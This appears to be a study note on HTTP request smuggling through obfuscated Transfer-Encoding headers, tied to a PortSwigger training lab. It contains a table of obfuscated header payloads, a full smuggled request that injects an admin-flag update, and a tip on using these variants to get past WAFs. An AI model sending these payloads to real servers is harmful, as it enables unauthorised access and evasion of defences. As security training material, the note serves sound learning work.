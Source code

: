 
- **Both front-end & back-end use TE**.
	
- One of the servers is induced to not process TE by obfuscation
	
- Exploits **malformed or duplicate TE headers**.

![[TE Header Obfuscations.png]]
## 🧪 Common TE Obfuscation Tricks
|Technique|Example Header|Why It Works|
|---|---|---|
|**Non-standard token**|`Transfer-Encoding: xchunked`|Some servers ignore invalid TE values → fallback to CL. Others attempt to parse anyway.|
|**Extra space before colon**|`Transfer-Encoding : chunked`|Certain parsers accept it, others don’t.|
|**Trailing junk after chunked**|`Transfer-Encoding: chunked` `Transfer-Encoding: x`|One server may parse as chunked, another sees invalid TE.|
|**Tab character instead of space**|`Transfer-Encoding:[tab]chunked`|Tabs are legal separators in HTTP/1.1 but not consistently handled.|
|**Leading space in header name**|`[space]Transfer-Encoding: chunked`|Some parsers ignore header, others parse it.|
|**Header smuggling with newline**|`X: X[\n]Transfer-Encoding: chunked`|Injects a hidden TE header. Front-end may ignore, back-end parses it.|
|**Header split across lines**|`Transfer-Encoding\r\n: chunked`|Newline before colon splits parsing logic between servers.|
|**Multiple TE headers**|`Transfer-Encoding: chunked` `Transfer-Encoding: cow`|Some servers use **first header**, others use **last**.|
|**Case manipulation**|`tRaNsFeR-eNcOdInG: ChUnKeD`|Case-insensitivity is required by RFC, but parsing bugs exist.|
|**Comma-separated encodings**|`Transfer-Encoding: gzip, chunked`|RFC-compliant but often mis-parsed → servers disagree on order.|

It is necessary to find some variation of the TE header such that only one of the front-end or back-end servers processes it, while the other server ignores it.
![[TE Obfuscation visual.png]]
## 📌 **Example**
[[3. Basic Obfuscating the TE header]] (with full methodology)

Other one:
```http
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```
💥 Result:
- Front-end ignores malformed TE (`chunked1`) and uses chunked normally.    
- Back-end interprets differently (or falls back to CL).
- Smuggled request (`POST /update`) is executed.

https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header

> **Pro tip:** TE obfuscation is **essential for bypassing WAFs** and modern defenses. If a clean CL.TE/TE.CL payload is blocked, fuzzing TE variants often works.